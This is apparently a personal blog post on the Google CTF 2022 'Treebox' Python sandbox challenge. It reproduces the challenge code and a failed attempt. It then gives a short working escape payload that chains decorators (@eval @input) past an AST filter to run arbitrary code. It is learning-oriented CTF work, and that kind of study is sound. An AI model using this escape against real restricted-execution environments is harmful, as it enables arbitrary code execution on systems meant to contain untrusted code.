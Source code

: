 ```yaml
---
title: "What I learned From Google Ctf"
date: 2022-07-03T21:02:55-05:00
draft: false
---
```


## Treebox

The challenge description was:
````
I think I finally got Python sandboxing right.
````

The challenge source code was.

````
#!/usr/bin/python3 -u
#
# Flag is in a file called "flag" in cwd.
#
# Quote from Dockerfile:
#   FROM ubuntu:22.04
#   RUN apt-get update && apt-get install -y python3
#
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
````
My first instict was to use decorators, but I wasn't sure that would allow me to escape the call AST check. I then looked into the [AST](https://docs.python.org/3/library/ast.html) documentation to see if there was anything useful. I missed that exceptions could call code so I tried to use `__getitem__` to call print.

````
class A:
    def __getitem__(self,item):
        pass

a = A()
a.__getitem__ = print
a["hello"]
````

I ran out of time trying to get my escape to work. Afterwards, I read through writeups and learned that you can use decorators to bypass the sandbox.

````
@eval
@input
class A: 0
````

This example uses decorators around a class to allow us to execute arbitrary code.